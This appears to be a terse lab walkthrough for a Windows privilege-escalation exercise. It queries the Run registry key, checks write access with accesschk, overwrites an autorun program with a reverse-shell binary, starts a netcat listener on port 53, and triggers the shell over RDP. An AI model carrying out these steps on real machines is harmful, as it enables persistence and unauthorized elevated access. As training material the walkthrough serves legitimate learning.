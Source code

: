 2x1 Registry - Autorun - RDP Needed to trigger


## Registry - Autorun

![163c1dafc6063ee877cbd1947d9a6386.png](../_resources/bd04a65c02664e2aae9d8d4905f763a1.png)

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
![750fe5e8302aeb9a0e3747f495df090a.png](../_resources/b5323201be8f488d936a6fcbe465a734.png)

```bash
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
![92e3b57672712ae2dc3fa6a9e5d32b44.png](../_resources/2b9eea0b9eba45cb992f861026f0debd.png)

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```
![9c469b14c86f4b7602b313ab1d84aece.png](../_resources/2e326ae466a5461bb49c3f2d05f45f6c.png)

```
sudo nc -nvlp 53
rdesktop 10.10.126.225
```
![a0b2c6d671191e7f4a37af29332389c8.png](../_resources/9c35d77f666145d59f940d019892f210.png)